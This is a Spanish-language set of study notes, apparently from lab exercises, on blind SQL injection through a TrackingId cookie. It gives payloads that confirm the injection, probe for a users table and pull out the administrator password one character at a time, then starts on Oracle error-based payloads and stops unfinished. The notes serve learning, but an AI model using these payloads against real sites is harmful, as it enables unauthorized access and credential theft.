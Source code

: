 
# Blind SQL injection with conditional responses

Blind SQL injection arises when an application is vulnerable to SQL injection, but its HTTP responses do not contain the 
results of the relevant SQL query or the details of any database errors.
With blind SQL injection vulnerabilities, many techniques such as UNION attacks,
are not effective because they rely on being able to see the results of the injected query within the application's responses.
It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used.

## Paso 1

Identificar que en la cookie existe una inyeccion SQL.

En este ejemplo tenemos una cookie "TrackId" primero se prueba si es vulerable 

```
Cookie: TrackingId=HjnfhA06d5ESS3fR'and 1=1--; session=BTTP2qL1z1a4sJNyePUM0DOuWo4UsYyu
Cookie: TrackingId=HjnfhA06d5ESS3fR'and 1=2--; session=BTTP2qL1z1a4sJNyePUM0DOuWo4UsYyu
```

Si regresa el mensaje de "Welcome back" eso quiere decir que esta interpretanod nuestro codigo. Probar con 1=2 para que de false porque una se evelua con true
y la otra con false.

## Paso 2

(falta saber como se supo que tenidamos estas tablas y usuarios)

El siguiente paso es probar si la tabla users existe eso se hace con una consulta la cual pone una x(o cualquier caracter) 
en cada fila por cada registro que exista dentro de la base:

```
Cookie: TrackingId=UHO0YeDpDdzu3u9A' and (select 'x' from users limit 1)='x'-- // recuerda el ctrl + U

```

Si nos da el mensaje de "Welcome back" quiere decir que es true y que esta tabla users existe. 
***Select 'x'...*** es una sentencia que pone una x por cada fila que tenga la tabla en este caso se limita a 1
y como se iguala a x si exite seria x=x lo que regresa true 

## Paso 3 

Ir sacando datos evaluando con true or false


```
'and (select 'a' from users where username='administrator')='a'--

'and (select username from users where username='administrator')='administrator'--


```

Primero se checho si existe el usuario "administrator (que si existe porque devolvio true por tanto el mensaje de welcome bacK)
Se hizo con diferentes metodos todos probados y funcionaron por eso hay 2 sentencias de unos
a


## Paso 4

Sacar el password. Primero se saca el len del password para posteriormente irlo sacando
Se utilizo el ***Intruder*** dar clear y poner add en la payload poner snipper 
y revisar cuando las peticiones son diferentes.


```
'and (select username from users where username='administrator' and length(password)>19)='a'--

'and (select 'a' from users where username='administrator' and length(password)>19)='a'--

```

Dio 20 aunque la consulta de 

```

'and (select 'a' from users where username='administrator' and length(password)>20)='a'--
 
```


Para el segundo query caracter ya da false porque el numero es 20 no mayor a 20 


## Paso 5

***Substring sintaxis***

```
SUBSTRING(EXPRESION(COLUMNA),POSICION(EMPIEZA EN 1),LENGTH).

```

Se utiliza substring para sacar los datos las posiciones empienzan index 1.


```
'and (select substring(password,1,1) from users where username='administrator')='a'--
```

Se puede usar el ataque cluster Bomb pero solo en Burp Pro 
iteraria sobre los cambpos (select substring(password,*,1) y where username='administrator')='*'


```
'and (select substring(password,2,1) from users where username='administrator')='a'--

'and (select substring(password,2,1) from users where username='administrator')='$a$'--
```


Asi uno por uno iria iterando para sacar el password.

# Blind SQL injection with conditional errors

En este caso la base de datos no regresa el mensaje de welcome back de entrada la inyeccion sql se encuentra en la cookie osea que el camino mas facil es
abrir burp e ir inyectando desde ahi sentencias sql.


## Paso 1

Intentamos ver que error manda como ejecuta la consulta etc

```
TrackingId=ilj71quJBUaTO5Yi'
```

Vemos que ya da error entonces intentamos cerrar la y no nos da error lo que nos dice que esta interpretandola bien.

```
TrackingId=ilj71quJBUaTO5Yi''
```
Nos damos cuenta que para que sirva tenemos que cerrar esa consulta lo que nos lleva a un tema de concatenar datos

```
'||(select '') ||'
```
Esta es  una consulta totalmente valida pero nos devuelve error ¿Porque? Quiza nos enfrentamos a una base de datos
tipo Oracle que tienes que especificar de donde quieres sacar datos probamos...

```
'||(select '' from dual) ||'
' || (select '' from users where rownum=1' ||'
```
# ¿Que ES ROWNUM y ROW_NUMBER() vs ROWNUM

>https://tipsfororacle.blogspot.com/2016/09/difference-between-rownum-and-rownumber.html?m=1

## ROWNUM

Esta intruccion asigna un numero cuando se regresa el resultado en una consulta de 1 hasta n al resultado como un tipo ID pero no se muestra

## ROW_NUMBER()

Esta intruccion de igual manera pone un numero pero la diferencia es que pone un numero en base a un orden ejemplo si tenemos 10 personas 5 primeros hombres y 5 mujeres pondria del 1 al 5 en los hombres y del 1 al 5 en mujeres porque ordeno por genero.

***Por lo tanto***

ROWNUMBER permite regresar de una consulta solo un solo registro en este caso es importante porque al ser una concatencion ' str || (str2) || str3' no rompe 
la consulta.

# Logica

Nos regresa que todo esta bien lo renderiza si ponemos dual1 no lo haria daria ***error***
Entonces aqui tenemos un punto ***como aprovechar** Bueno si hacemos una consulta por ejemplo a la tabla users
deberia de renderizar todo pero como sacamos los datos¿?




